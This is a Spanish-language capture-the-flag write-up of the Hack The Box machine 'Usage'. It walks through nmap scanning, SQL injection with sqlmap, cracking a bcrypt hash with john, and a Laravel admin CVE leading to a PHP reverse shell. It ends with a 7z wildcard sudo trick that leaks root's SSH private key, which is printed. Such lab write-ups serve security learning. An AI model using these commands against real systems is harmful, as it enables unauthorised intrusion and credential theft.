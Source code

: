 ```yaml
---
title: Usage HTB
date: 2024-08-02
tier: easy
author: naibu3
---
```

#writeup #HTB 
# Reconocimiento

Como siempre comenzamos lanzando [[nmap]], para tratar de buscar puertos abiertos:

```nmap
sudo nmap -p- --open -sS --min-rate 5000 -n -Pn 10.10.11.18 > allPorts

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
```nmap
sudo nmap -p22,80 -sCV 10.10.11.18 > targeted

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vemos que se aplica virtual hosting, por lo que debemos añadir el dominio al */etc/hosts*.

Ahora podemos ver la página:

![[usage.png]]

Vemos una pestaña de login, otra de registro y una de *admin*, que nos redirige a *admin.usage.htb*.

En la pestaña de login tenemos una opción *reset password*, que nos pide un email, si mandamos una *`'`*, veremos que nos da un `500 Internal server error`, evidenciando una [[SQL Injection]]. Capturaremos la petición con [[burpsuite]] y utilizaremos [[SQLMap]]:

![[usage2.png]]

![[usage3.png]]

```bash
sqlmap -r request.txt -p email --level 5 --risk 3 --batch --threads 10 --dbs
```

Así obtendremos unas credenciales para el usuario *admin*, con la contraseña hasheada `$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2`.

```bash
john -w=/usr/share/wordlists/rockyou.txt hashes.txt

Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
whatever1        (?)     
1g 0:00:00:08 DONE (2024-08-02 14:08) 0.1200g/s 194.4p/s 194.4c/s 194.4C/s alexis1..serena
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

# Explotación

Ya estamos dentro del panel de administración:

![[usage4.png]]

Vemos que estamos ante un panel [[Laravel]], la versión (en la esquina inferior derecha) es la 1.8.17. Con una búsqueda en internet descubrimos el siguiente [CVE-2023-24249](https://flyd.uk/post/cve-2023-24249/). 

# Escalada de privilegios

De esta forma logramos conectarnos mediante una [[Reverse shell]] con [[php]] como el usuario *dash* (flag `9c03f1d4c2bcbc56d3aaa25dfe371b43`). 

Aplicamos un  [[Tratamiento de la tty]], y vemos que existe un usuario *xander*. En el home de *dash*, encontramos un archivo *.monitrc*:

```cat .monitrc 
#Monitoring Interval in Seconds
set daemon  60

#Enable Web Access
set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd
[...]
```

Estas credenciales resultan válidas para xander.

Si revisamos los [[Privilegios a nivel de Sudoers]]:

```bash
sudo -l

Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```

Con un *strings*, vemos que se está utilizando [[7z]] con una *wildcard* (`..*`), por lo que podemos hacer lo siguiente:

```bash
xander@usage:/var/backups$ cd /var/www/html/
xander@usage:/var/www/html$ touch '@id_rsa'
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa id_rsa
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
```
```sh
-----BEGIN OPENSSH PRIVATE KEY----- : No more files
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW : No more files
QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi : No more files
QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q : No more files
AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs : No more files
H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM= : No more files
-----END OPENSSH PRIVATE KEY----- : No more files
```

Ya podemos conectarnos con ssh y ver la flag del admin (`6e72bb2fefa0bb0c4afbb0e38ca021dc`):

```bash
chmod 600 id_rsa

ssh root@10.10.11.18 -i id_rsa
```